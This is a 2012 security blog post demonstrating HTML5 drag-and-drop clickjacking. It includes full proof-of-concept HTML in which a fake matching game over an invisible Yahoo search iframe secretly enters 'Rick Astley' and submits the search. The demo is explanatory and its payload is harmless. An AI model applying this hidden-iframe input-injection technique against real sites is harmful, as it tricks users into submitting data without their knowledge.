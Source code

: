 ```yaml
---
layout: post
title:  "Leveraging HTML5 in order to turbocharge clickjacking"
date:   2012-03-28 00:00:00 +0000
categories: blog
image: /assets/images/2012-03-28-HTML5-ClickJacking-1.png

---
```


You have a website and you've proven it's vulnerable to clickjacking, but what use is fooling a user into submitting a form unless you can specify some of the data that the user is submitting within those fields?.

We've all played games online where you have to match up words to phrases or maybe things like the impossible game where you drag words to the respective colours. What about turning a harmless game such as the above into a form submission machine? Well now with HTML5 - you can!

It's all thanks to the drag-and-drop method and in particular the ondragstart method.

```html
draggable="true" ondragstart="event.dataTransfer.setData('text/plain','Rick Astley')"
```

Use the above on anything you want to make draggable - in my testing I opted for a simple ```<div>``` element containing a string and I ask the players to drag and drop the string onto the correct corresponding sentence.

When they click the answer button it will submit the jacked site.

So users in this case drag the word CSS across to the answer "Cascading Style Sheets" but unknowingly enter "rick astley" into the search field of videos.yahoo.com.

![](/assets/images/2012-03-28-HTML5-ClickJacking-1.png)

When the user then clicks the answer button, this actually submits the search.
![](/assets/images/2012-03-28-HTML5-ClickJacking-2.png)

Resulting in the user getting rick rolled in the background.

![](/assets/images/2012-03-28-HTML5-ClickJacking-3.png)

In case you wanted to play with it yourself the code for it is in the code block below, though bear in mind all of this is hard coded to work on my screen with absolute positioning, you'll need to do more legwork to get it working on your side:

```html
<html>
  <head>
    <title>HTML Clickjacking demonstration - drag and WTF!?</title>
    <style>
      iframe{position: absolute; top:0px; left:0; filter: alpha(opacity=0); opacity:0;z-index:1}
      button{position: absolute; top:40px; left: 805px; z-index:-1; width:107px; height:26px;}
      .magicfield1{position: absolute; top:40px; left: 340px; z-index:-1; height: 26px; border: 1px solid orange}
      .magicfield2{position: absolute; top:40px; left: 480px; z-index:-1; height: 26px; border: 1px solid orange}
      .magicfield3{position: absolute; top:40px; left: 650px; z-index:-1; height: 26px; border: 1px solid orange}
      .magictext{position: absolute; top:54%; left: 50%; z-index:-1; }
      .showhider{position: absolute; top:90%; left: 1%}
      .intro{position: absolute; top:50%; left:0}
    </style>
    <script type="text/javascript">
      function mask(){
        document.getElementById("iframe").style.opacity = ".1"; // for most browsers  
        document.getElementById("iframe").style.filter = "alpha(opacity=10)"; // for IE
      }
      function hide(){
        document.getElementById("iframe").style.opacity = ".0"; // for most browsers  
        document.getElementById("iframe").style.filter = "alpha(opacity=0)"; // for IE
      }
      function show(){
        document.getElementById("iframe").style.opacity = ".9"; // for most browsers;  
        document.getElementById("iframe").style.filter = "alpha(opacity=90)"; // for IE  
      }
      function reveal(){
        alert("Checking your answer...");
        document.getElementById("iframe").style.opacity = ".9"; // for most browsers
        document.getElementById("iframe").style.filter = "alpha(opacity=90)"; //for IE
      }
    </script>
  </head>
  <body>
    <div class="intro">
      <p>Hello and welcome to the match game</p>
      <p>All you have to do is drag the following 3 letter acronym to the matching string ---> </p>
      <p class="showhider">As you know it's a test - <a onClick="show()">Show iframe</a> - <a onClick="hide()">Hide iframe</a> - <a onClick="mask()">Mask iframe</a> </p>
    </div>
    <div class="magictext" draggable="true" ondragstart="event.dataTransfer.setData('text/plain', 'Rick Astley')">
      <H1 style="border: 1px dashed black">CSS</H1>
    </div>
    <iframe src="http://video.search.yahoo.com/" width="99%" id="iframe" height="50%"></iframe>
    <span class=magicfield1>Cross Site Scripting</span><span class=magicfield2>Cuddly Slippery Snakes</span> <span class="magicfield3">Cascading Style Sheets</span>
    <button>Answer</button>
  </body>
</html>
```

I am no web developer and quickly ran out of patience when working on the positioning issues so feel free to take, improve and build on it. I was just playing with some of the new features of HTML5 to see if they could be useful in my day job.
